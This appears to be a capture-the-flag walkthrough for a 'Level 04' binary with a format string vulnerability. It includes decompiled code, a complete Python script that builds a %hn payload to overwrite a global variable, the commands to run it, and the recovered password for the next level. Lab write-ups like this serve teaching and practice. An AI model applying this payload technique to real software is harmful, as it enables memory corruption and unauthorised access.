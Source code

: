 # Level 04 Walkthrough

## Binary analysis

The binary is vulnerable to a format string attack. The global variable `m` (address: 0x08049810) must be set to 0x01025544 to trigger the call to `system("/bin/cat /home/user/level5/.pass")`.

Relevant code:
```
0804847a        char buf[0x208]
0804847a        fgets(&buf, n: 0x200, fp: __bss_start)
08048488        p(&buf)
0804848d        uint32_t m_1 = m
08048497        if (m_1 != 0x1025544)
080484a6            return m_1
080484a0        return system(line: "/bin/cat /home/user/level5/.pass")
```

## Exploitation

We use a format string payload to write 0x01025544 into the global variable `m` using two half-word writes.

Python script to generate the payload:
```python
import struct

def p32(n):
    return struct.pack("<I", n)

OFFSET = 12
WRITE_ADDR = 0x08049810
WRITE_VAL = 0x01025544

val_low = WRITE_VAL & 0xFFFF
val_high = (WRITE_VAL >> 16) & 0xFFFF

addr_low = WRITE_ADDR
addr_high = WRITE_ADDR + 2

writes = [
    (addr_low, val_low),
    (addr_high, val_high),
]
writes.sort(key=lambda x: x[1])

addrs_part = b"".join(p32(addr) for addr, val in writes)

format_part = b""

written_bytes = len(addrs_part)

for i, (addr, val) in enumerate(writes):
    padding = (val - written_bytes) & 0xFFFF
    if padding == 0:
        padding = 0x10000
    param_num = OFFSET + i
    format_part += b"%" + str(padding).encode('ascii') + b"x"
    format_part += b"%" + str(param_num).encode('ascii') + b"$hn"
    written_bytes += padding

payload = addrs_part + format_part

with open("payload.txt", "wb") as f:
    f.write(payload)
```

## Commands used

```
cat payload.txt | ./level4
ls
cat /home/user/level5/.pass
```

## Result

After running the exploit, we get the password for level5:

```
cat /home/user/level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

Copy the password for the next level. 